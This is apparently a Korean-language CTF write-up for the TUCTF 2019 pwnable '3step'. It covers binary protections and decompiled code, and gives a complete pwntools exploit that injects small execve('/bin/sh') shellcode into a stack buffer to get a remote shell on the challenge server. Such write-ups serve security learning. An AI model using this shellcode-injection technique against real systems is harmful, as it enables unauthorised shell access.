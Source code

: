 +++
title = "TUCTF 2019 Pwnable 3step"
subtitle = "3step"

# Add a summary to display on homepage (optional).
summary = "pwnable 3step"

date = "2019-12-03T03:33:19+09:00"
publishDate = "2019-12-03T03:33:19+09:00"
expiryDate = ""

# Authors. Comma separated list, e.g. `["Bob Smith", "David Jones"]`.
authors = []

# Tags and categories
# For example, use `tags = []` for no tags, or the form `tags = ["A Tag", "Another Tag"]` for one or more tags.
tags = ['CTF', '2019', 'pwn', '3step']
categories = ['PWN']
keywords = ['CTF', '2019', 'pwn', '3step']

# Projects (optional).
#   Associate this post with one or more of your projects.
#   Simply enter your project's folder or file name without extension.
#   E.g. `projects = ["deep-learning"]` references 
#   `content/project/deep-learning/index.md`.
#   Otherwise, set `projects = []`.
# projects = ["internal-project"]

# Featured image
# To use, add an image named `featured.jpg/png` to your page's folder. 
[image]
  # Caption (optional)
  caption = ""

  # Focal point (optional)
  # Options: Smart, Center, TopLeft, Top, TopRight, Left, Right, BottomLeft, Bottom, BottomRight
  focal_point = ""

draft = false
+++

32bit 바이너리 `3step`와 접속 정보 `nc chal.tuctf.com 30504`가 주어졌습니다.
```py
>>> e = ELF('./3step')
[*] '/root/ctf/2019/tu/pwn/3step/3step'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
i386 바이너리이고  
Full RELRO 이므로 GOT Overwrite는 아니며  
Canary가 있으므로 BOF는 아니고  
NX bit가 해제되어 있고 RWX 세그먼트가 있으므로 100% 스택에 쉘코드 실행 가능합니다.   
<br>

```plain
j3rrry@kali:3step# nc chal.tuctf.com 30504
Welcome to our 3-step program!
Try out complimentary snacks
0x5665000c
0xffb5c08c

Step 1: j3rrry
Step 2: j4rrry
Step 3: j5rrry
```
문제 서버에 접속해보면 16진수 2개를 알려준 다음 3 Step에 걸쳐서 입력을 받습니다.  
<br>

```c
void __cdecl pwnme()
{
  void (*v0)(void); // [sp+8h] [bp-20h]@1
  char buf; // [sp+Ch] [bp-1Ch]@1
  int v2; // [sp+1Ch] [bp-Ch]@1

  v2 = *MK_FP(__GS__, 20);
  puts("Try out complimentary snacks");
  printf("%p\n", &buf1);
  printf("%p\n\n", &buf);
  printf("Step 1: ");
  read(0, &buf1, 0x12);
  printf("Step 2: ");
  read(0, &buf, 0x10);
  printf("Step 3: ");
  read(0, &v0, 4);
  v0();
  if ( *MK_FP(__GS__, 20) != v2 )
    _stack_chk_fail_local();
}
```
바이너리를 디스어셈블링 해보면  
buf1과 buf의 주소를 출력해줍니다.  
buf1은 bss 영역, buf는 스택 영역입니다.  
  
그리고 입력을 받는데 길이제한이 0x12, 0x10, 4로 매우 작습니다.  
쉘코드를 경량화하도록 커스텀을 해야하는데요.

# Exploit
```py
from pwn import *

def start():
    e = ELF('./3step')
    r = remote('chal.tuctf.com', 30504)

    return e, r

def info():
    r.recvuntil('0x')
    bss = int(r.recvline(), 16)
    stack = int(r.recvline(), 16)
    log.info(hex(bss) + ' bss')
    log.info(hex(stack) + ' stack')

    return bss, stack

def step1():
    r.recvuntil(': ')
    r.send('/bin/sh')

def step2():
    r.recvuntil(': ')
    r.send(shellcode)

def step3():
    r.recvuntil(': ')
    r.send(p32(stack))

if __name__ == '__main__':
    e, r = start()
    bss, stack = info()

    shellcode = '''
        mov ebx, {}
        xor ecx, ecx
        xor edx, edx
        xor eax, eax
        mov al, 0xb
        int 0x80
        mov al, 0xb
        int 0x80
    '''.format(bss)
    shellcode = asm(shellcode)

    step1()
    step2()
    step3()

    r.interactive()
```
